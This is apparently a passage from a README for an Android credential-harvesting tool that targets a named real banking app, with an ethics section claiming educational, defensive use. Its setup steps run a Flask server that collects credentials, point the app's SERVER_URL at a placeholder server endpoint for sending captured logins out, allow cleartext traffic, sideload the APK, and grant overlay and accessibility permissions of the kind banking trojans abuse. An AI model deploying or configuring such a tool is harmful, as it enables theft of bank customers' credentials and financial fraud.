 ## 🔐 Ethical Considerations and Responsible Disclosure

### Research Ethics
- **Controlled Environment**: All testing conducted in isolated research environments
- **Data Protection**: Secure handling and storage of any collected demonstration data
- **Educational Purpose**: Framework designed exclusively for educational and defensive research

### Responsible Use Guidelines
- **Authorization Required**: Framework should only be used with explicit permission
- **Legal Compliance**: Adherence to applicable laws and regulations
- **Defensive Application**: Primary use for security awareness and defensive strategy development

## 🚀 Installation and Setup

### Prerequisites
- Android device with API level 23+ (Android 6.0)
- Development environment with Android SDK
- Flask server environment for backend components
- Network connectivity for credential transmission testing
- Target application: Mercantile Bank app (com.ideomobile.mercantile) installed on test device

### Configuration Steps

1. **Backend Setup**
   ```bash
   pip install flask flask-cors python-dotenv
   python demo_server.py
   ```

2. **Environment Configuration**
   Configure server settings in `.env.txt`:
   ```
   SERVER_PORT=5000
   ```

3. **Network Configuration**
   Update the server IP address in the Android application:
   
   **In `Constants.kt`:**
   ```kotlin
   const val SERVER_URL = "http://YOUR_SERVER_IP:5000/api/credentials"
   ```
   
   **In `network_security_config.xml`:**
   ```xml
   <domain-config cleartextTrafficPermitted="true">
       <domain includeSubdomains="false">YOUR_SERVER_IP</domain>
   </domain-config>
   ```
   
   Replace `YOUR_SERVER_IP` with your actual server IP address (e.g., `192.168.1.47`)

4. **Android Application**
   - Enable "Install from Unknown Sources"
   - Install the APK package
   - Grant required permissions (Overlay, Accessibility)
   - Ensure target device and server are on the same network
